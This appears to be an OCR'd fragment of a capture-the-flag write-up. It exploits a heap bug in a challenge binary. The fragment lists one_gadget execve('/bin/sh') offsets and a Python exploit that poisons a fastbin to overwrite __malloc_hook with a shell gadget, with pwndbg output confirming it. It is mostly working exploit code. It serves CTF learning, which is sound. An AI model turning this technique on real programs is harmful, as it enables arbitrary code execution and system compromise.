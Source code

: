 0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

```python
libc.sym['one_gadget'] = 0x4527a

delete(4)
edit(5, 0x68, flat('1' * 0x60, 0x170))
delete(6)
delete(5)
#add(0x120, flat(cyclic(n = 8, length = 0x120)))
add(0x120, flat('a' * 248, 0x71, libc.sym['__malloc_hook'] - 0x23))
add(0x68, 'x' * 10)
pause()
add(0x68, flat('\0' * 0x13, libc.sym['one_gadget']))
```
```gdb -q -p `pidof pwn` -ex "b *0x400A6F" -ex "c"```
fastbins c ctrl+C magic malloc_hook is changed
```
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x7f1dc0b1caed (_IO_wide_data_0+301) ◂— 0x1dc07dda7000007f
0x80: 0x0
pwndbg> c
Continuing.
^C
========== function ==========
system:0x453a0
execve:0xcc7f0
open:0xf70f0
read:0xf7310
write:0xf7370
gets:0x6ed90
setcontext+0x35:0x47b85
========== variables ==========
__malloc_hook(0x3c4b10)             : 0x00007f1dc079d27a
__free_hook(0x3c67a8)               : 0x0000000000000000
__realloc_hook(0x3c4b08)            : 0x0000000000000000
stdin(-0x7f1dc0155f50)              : 0x00007f1dc0b1c8e0
stdout(-0x7f1dc0155f60)             : 0x00007f1dc0b1d620
_IO_list_all(0x3c5520)              : 0x00007f1dc0b1d540
__after_morecore_hook(0x3c67a0)     : 0x0000000000000000
